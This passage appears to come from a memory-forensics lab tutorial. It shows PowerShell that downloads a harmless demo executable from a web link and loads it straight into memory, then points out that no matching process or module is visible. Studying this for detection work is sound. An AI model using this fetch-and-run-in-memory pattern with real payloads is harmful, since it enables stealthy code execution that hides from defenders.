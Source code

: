 Using `csc.exe -out:GoTeam.exe GoTeam.cs`, this can code can be compiled into the benign program `GoTeam.exe` which prompts the user for their favorite sports team, then provides a response depending on the team given.

The following commands will download the compiled program into memory and run it with Powershell:

```powershell
$uri = 'https://s3.amazonaws.com/exercise-pcap-download-link/GoTeam.exe'
$exe = Invoke-WebRequest -Uri $uri
$Base64 = [System.Convert]::ToBase64String($exe.Content)
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String($Base64)).EntryPoint.Invoke($Null, $Null)
```

After this last command, the `GoTeam.exe` program will be running inside the memory space of the PowerShell process. 

![](images/Obtaining%20Artifacts%20From%20Memory/image017.png)<br><br>

Check task manager and you will not see any processes that resemble a `GoTeam` process running.

![](images/Obtaining%20Artifacts%20From%20Memory/image018.png)<br><br>

It won't be shown as a loaded module within the process either:

![](images/Obtaining%20Artifacts%20From%20Memory/image019.png)<br><br>
